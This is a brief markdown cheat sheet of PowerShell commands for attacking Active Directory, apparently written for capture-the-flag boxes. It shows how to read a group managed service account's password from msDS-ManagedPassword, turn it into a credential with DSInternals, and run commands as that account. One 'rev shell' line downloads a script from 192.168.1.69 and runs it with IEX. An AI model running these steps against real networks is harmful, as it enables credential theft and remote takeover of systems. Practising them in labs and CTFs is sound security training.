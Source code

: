 # active directory

## get user account
```powershell
Get-AdUser AccountUsername
```

## get GMSA service account properties
```powershell
Get-AdServiceAccount AccountUsername -properties *
```

### get GMSA password and run commands
```powershell
# get password
$gmsa = Get-AdServiceAccount AccountUsername -properties msDS-ManagedPassword
$mp = $gmsa.'msDS-ManagedPassword'
# get secure string
$secpwd = (ConvertFrom-AdManagedPasswordBlob $mp).SecureCurrentPassword
$cred = New-Object System.Management.Automation.PSCredential('AccountUsername', $secpwd)
# test command
Invoke-Command -Computer 127.0.0.1 -Credential $cred -ScriptBlock { whoami }
# rev shell
Invoke-Command -Computer 127.0.0.1 -Credential $cred -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://192.168.1.69/rev.ps1') }
```

#### fix missing ConvertFrom-AdManagedPasswordBlob
ConvertFrom-AdManagedPasswordBlob is not recognized as the name of a cmdlet, function...
need to install DSInternals module
```powershell
Install-Module DSInternals -Force
```
if powershell gallery is not available on CTF boxes
##### TODO: add steps to install from zip

# general enumeration

## get list of filepaths recursively
```powershell
gci -recurse . | select fullname
```
